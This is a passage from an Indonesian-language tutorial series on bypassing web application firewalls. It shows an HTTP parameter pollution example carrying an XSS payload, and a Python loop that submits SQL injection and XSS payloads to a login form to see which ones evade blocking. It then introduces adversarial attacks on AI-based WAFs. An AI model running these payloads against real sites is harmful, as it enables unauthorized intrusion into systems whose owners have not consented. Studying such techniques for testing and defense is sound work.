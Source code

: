 
### 🔹 1.3. HTTP Parameter Pollution
Mengirimkan **parameter duplikat** dalam request untuk membingungkan parser WAF.

**Contoh:**
```
https://target.com/search?query=test&query=<script>alert(1)</script>
```

---

## 🎭 Adaptive Attack Chains
Teknik **Adaptive Attack Chains** memungkinkan payload berubah sesuai respons dari WAF.

**Contoh Adaptive Payload Injection (Python):**
```python
import requests

payloads = ["' OR '1'='1", "' UNION SELECT NULL, NULL--", "<script>alert(1)</script>"]
target_url = "https://target.com/login"

for payload in payloads:
    response = requests.post(target_url, data={"username": "admin", "password": payload})
    
    if "blocked" in response.text:
        print(f"Payload {payload} ditolak, mencoba varian lain...")
    else:
        print(f"Payload {payload} berhasil lolos!")
```

---

## 📌 Kesimpulan
Di **Part 3** ini, kita telah membahas beberapa teknik **Cloud-Based WAF Evasion**, termasuk **Proxy Rotation, Encrypted Payload Injection, dan Adaptive Attack Chains**.

**Next:** 📖 *"Bypassing AI-Enhanced WAF & Next-Gen Attack Vectors"* 🚀

# Kamus Besar Bypass WAF - Part 4

## 🤖 Bypassing AI-Enhanced WAF & Next-Gen Attack Vectors

Pada bagian ini, kita akan membahas bagaimana melewati **WAF berbasis AI & Machine Learning**, serta teknik serangan tingkat lanjut yang digunakan untuk mengelabui sistem keamanan generasi berikutnya.

---

## 🛡️ 1. AI-Based WAF Bypass

### 🔹 1.1. Adversarial Machine Learning Attack
Serangan ini mengeksploitasi model AI dengan **perturbasi input** yang membuat payload tampak normal.
